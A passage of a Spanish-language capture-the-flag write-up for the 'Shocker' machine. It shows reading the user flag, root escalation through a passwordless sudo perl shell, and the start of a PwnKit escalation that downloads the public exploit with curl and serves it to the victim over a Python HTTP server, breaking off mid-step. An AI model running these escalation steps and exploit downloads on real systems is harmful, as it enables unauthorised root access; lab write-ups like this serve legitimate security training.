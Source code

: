 ¡Es momento de leer la flag del usuario!

```bash
  shelly@Shocker:/usr/lib/cgi-bin$ find / -name user.txt 2>/dev/null
  /home/shelly/user.txt
  shelly@Shocker:/usr/lib/cgi-bin$ head -c 10 /home/shelly/user.txt; echo
  2ec24e1132
```

## ESCALADA DE PRIVILEGIOS SUDO

Una vez tenemos acceso a la maquina vamos a realizar el escalamiento de permisos para poder obtener acceso privilegiado y control absoluto, en esta ocasión vamos a verificar los permisos de ejecución de comandos con sudo.

```bash
  shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
  Matching Defaults entries for shelly on Shocker:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User shelly may run the following commands on Shocker:
      (root) NOPASSWD: /usr/bin/perl
```

Podemos ejecutar el comando perl con permisos de sudo sin necesidad de tener una contraseña, por lo que vamos a hacer uso del recurso de [GTFObins](https://gtfobins.github.io/gtfobins/perl/#shell)

```bash
  shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
  # whoami
  root
```

## ESCALADA DE PRIVILEGIOS POR PWNKIT

Ahora vamos a realizar el escalamiento de privilegios revisando los permisos en la máquina.

```bash
  find / -perm -4000 2>/dev/null
  /usr/bin/pkexec
```

Utilizamos el script de [ly4k](https://github.com/ly4k/PwnKit) de sus repositorios en [github](https://github.com/ly4k).

```bash
  cd ../exploit
  ❯ curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```

Luego de tener descargado el recurso, creamos un servidor `http` con ayuda de `python`.

```bash
  ❯ sudo python3 -m http.server 80
```

En la máquina victima por medio de la utilidad `wget`, realizamos la descarga del contenido compartido anteriormente.
